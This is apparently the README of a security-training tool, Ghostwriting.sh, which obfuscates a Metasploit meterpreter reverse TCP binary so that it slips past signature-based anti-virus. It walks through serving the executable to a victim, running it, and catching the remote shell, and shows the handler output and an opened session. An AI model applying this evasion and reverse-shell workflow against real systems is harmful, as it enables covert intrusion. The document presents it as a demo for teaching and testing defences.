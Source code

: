 # Ghostwriting.sh - Anti-virus Filter Bypass
[Documentation](https://adhdproject.github.io/#!Tools/Attack/Ghostwriting.md)
One common technique employed by anti-virus software is to catalog signatures of known malicious code, which can then be used to flag files containing content that produces a matching signature. Ghostwriting is a method to bypass this kind of check by deconstructing a binary, inserting arbitrary and benign assembly, and reconstructing it, thus changing its signature without changing its functionality. Ghostwriting.sh is a script used to automate this process using Metasploit tools. 

### Usage
Although the Metasploit tools used by Ghostwriting.sh are general purpose and this technique can be applied to any binary, the Ghostwriting.sh script itself has many important values hardcoded in, including the target binary. It is intended to be significantly modified before use, or used as a reference (noted in the original documentation: "this script is a demonstration tool ... it can however be modified to be hyper effective")

The following is a usage synopsis of the default behavior, which as noted is exclusively a demo.

1. Ghostwriting.sh can be started simply by invoking it with no arguments. It will automatically load a meterpreter reverse tcp binary ready to connect to the machine running the Ghostwriting.sh script, disassemble it, insert extraneous code, and reassemble it. It will then start a web server hosting the newly obfuscated executable.
```
$ sudo ./ghostwriting.sh
    **************************************************** 
    Opening webserver on 192.168.27.171:8000 for file transfer 
    Ctrl+C to continue after file transfer 
    **************************************************** 
    Serving HTTP on 0.0.0.0 port 8000 ...
```

2. On the victim machine, the user can navigate to the address hosting the new executable, and download and run EveryVillainIsLemons.exe. At this point, depending on anti-virus software being run, it may block the download, block execution, or (hopefully) do nothing at all and let the malicious code slide. 

![directory listing for /](https://adhdproject.github.io/Tools/Attack/Ghostwriting.sh_files/downloads.PNG)

The meterpreter reverse tcp shell binary is a common and well published binary file. Any half-baked anti-virus will recognize the signature of an unmodified copy of meterpreter. If EveryVillainIsLemons.exe passes anti-virus checks, the technique has been a success. 

3. Back in the Ghostwriting.sh prompt, the user can now enter Ctrl + C to continue, and will be prompted to begin the meterpreter handler.
```
File Transfer Complete, probably... 
Would you like to start the handler now? [y/N] 
y 
Starting Handler LHOST => 192.168.27.171 LPORT => 8080 
[*] Started reverse handler on 192.168.27.171:8080 
[*] Starting the payload handler...
```

Once the obfuscated executable makes connection, a remote shell will be started.
```
[*] Sending state (769536 bytes) to 192.168.27.1 
[*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33 
meterpreter \>
```
Everything has worked, and the demo is over.
